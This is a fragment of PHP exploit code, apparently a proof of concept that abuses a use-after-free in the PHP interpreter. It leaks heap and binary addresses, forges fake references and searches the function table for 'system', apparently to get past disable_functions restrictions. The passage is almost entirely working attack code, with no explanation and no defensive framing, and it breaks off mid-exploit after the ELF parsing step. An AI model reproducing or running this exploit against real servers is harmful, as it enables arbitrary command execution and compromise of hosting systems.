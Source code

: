 ```php
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

```